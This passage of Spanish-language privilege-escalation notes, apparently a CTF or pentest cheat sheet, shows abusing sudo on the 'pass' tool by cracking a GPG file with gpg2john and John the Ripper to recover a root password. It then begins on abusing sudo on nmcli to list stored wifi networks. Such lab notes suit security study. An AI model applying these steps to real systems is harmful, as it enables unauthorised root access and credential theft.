 `-- root
    |-- password
    `-- shell


ejecutamos para escalar privilegios:

sudo /usr/bin/pass root/password

/usr/bin/pass trabaja con archivos .gpg 

por lo tanto debo buscar archivos con esa extensión
los archivos gpg están encriptados, la forma de saber si están encriptado es:

md5sum archivo.ext


para los archivos gpg hay una herramienta que se llama gpg2john para sacar el hash y crackearlos

gpg2john root.pgp > hash

john -w=/usr/share/wordlists/rockyou.txt hash

john hash --show

vuelvo a ejecutar: 

sudo /usr/bin/pass root/password

escribo la contraseña encontrada con John the ripper y listo puedo ver la contraseña de root

ejemplo

sudo /usr/bin/pass root/password

resultado:
r00tP@zzW0rD123


con esa contraseña elevo a root
su root
y escribo la contraseña y listo soy root !!!

73.-	/usr/bin/nmcli

el binario /usr/bin/nmcli es la herramienta de línea de comandos (CLI) para interactuar con NetworkManager, un servicio que gestiona las conexiones de red en sistemas Linux. Su nombre significa NetworkManager Command-Line Interface.

(root) NOPASSWD: /usr/bin/nmcli

ver redes almacenadas:

 /usr/sbin/sudo nmcli connection show

me puede aparecer algo como esto:

NAME         UUID                                  TYPE  DEVICE 
MikroTik_AP  e25d230b-bb26-4488-b2e0-1b94dac2b9cd  wifi  -- 

para este caso es una red wifi

ahora busco información sobre la red wifi MikroTik_AP 

find / -name MikroTik_AP 2>/dev/null
